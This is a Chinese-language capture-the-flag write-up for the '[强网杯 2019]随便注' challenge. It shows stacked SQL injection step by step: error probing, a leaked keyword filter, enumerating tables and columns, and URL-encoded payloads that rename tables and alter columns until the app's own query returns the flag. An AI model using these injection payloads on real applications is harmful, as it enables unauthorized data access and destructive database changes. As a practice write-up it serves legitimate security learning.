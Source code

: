# 刷题！！！>_<

## [强网杯 2019]随便注

sqlmap是没有灵魂的...来自作者的怨念，F12即读

注入0，无回显

注入1，返回：

array(2) {
  [0]=>
  string(1) "1"
  [1]=>
  string(7) "hahahah"
}

注入2,返回：

array(2) {
  [0]=>
  string(1) "2"
  [1]=>
  string(12) "miaomiaomiao"
}

注入1'，返回：

error 1064 : You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''1''' at line 1

说明用双引号包裹了$_GET()

注入1.1，返回：

return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);

直接把过滤内容给我们了，很良心

select和update被ban掉，只能使用堆叠注入。

查看一下查询的内容有几个字段，可以用order by：

?injdect=1%27 order by n%23

n=2时正常回显，n=3时报错，说明查询字段数为2（其实看回显也看得出来

看表名：

?inject=1%27%3Bshow tables%3B

回显：

array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}

可以看到有两张表，分别看一下字段：

?inject=1%27%3Bshow columns from words%23

回显：

array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

有id和data两个字段，结合我们的初始回显可以猜测，题目的select就是从这里取值。

猜测select结构：

```sql
SELECT data FROM words where id=$_GET()
```

再看另一个表：

?inject=1%27%3Bshow columns from 1919810931114514%23

没回显？查了一下，纯数字表名直接select from会报错，所以需要加一个引用符号，在mysql中是反引号`

?inject=1%27%3Bshow columns from %601919810931114514%60%23

得到回显：

array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

flag就在这里，可是禁用了select，该怎么拿出来呢？

我们唯一可用的select应该是后台sql中原语句里的select，但是它从words中选数。

所以一种想法是：用rename和alter把后台的sql数据库架构修改一下！（毕竟题目环境给了我们很大的权限

```sql
RENAME TABLE 旧表名 TO 新表名;
ALTER TABLE table_name ADD COLUMN new_column datatype [AFTER old_column];
ALTER TABLE table_name CHANGE old_column new_column new_column_datatype;
```

?inject=1%27%3Brename table words to tmp%3Brename table %601919810931114514%60 to words%3Balter table words add column id int unsigned not NULL auto_increment primary key%3Balter table words change flag data varchar%28100%29%3B%23

首先把原来的words改成tmp，再把一串恶臭的数字改成words，在words中加入自动递增的序号id（因为原来的words应该也是这样生成id的），然后再把原来的flag字段改名成data字段，这样就可以供直接select出来了。

再输入1查询，即可得到flag：

array(2) {
  [0]=>
  string(42) "flag{264815d4-1b95-4c17-8768-010121b41e09}"
  [1]=>
  string(1) "1"
}



